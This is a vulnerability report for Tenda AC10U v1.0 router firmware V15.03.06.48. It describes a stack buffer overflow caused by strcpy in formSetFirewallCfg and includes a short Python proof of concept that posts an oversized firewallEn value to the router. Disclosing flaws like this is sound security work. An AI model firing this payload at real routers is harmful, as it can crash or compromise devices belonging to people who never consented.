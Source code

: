 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetFirewallCfg` function. The `firewall_value` variable receives the `firewallEn` parameter from a POST request and is later assigned to the `firewall_buf` variable, which is fixed at 8 bytes. However, since the user can control the input of  `firewallEn`, the statement `strcpy(firewall_buf, firewall_value);` can cause a buffer overflow. The user-provided  `firewallEn` can exceed the capacity of the `firewall_buf` array, triggering this security vulnerability.

 ![image-20240313150902519](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150902519.png)

![image-20240313150818108](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313150818108.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetFirewallCfg"
payload = b"a"*1000

data = {"firewallEn": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313182949879](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313182949879.png)
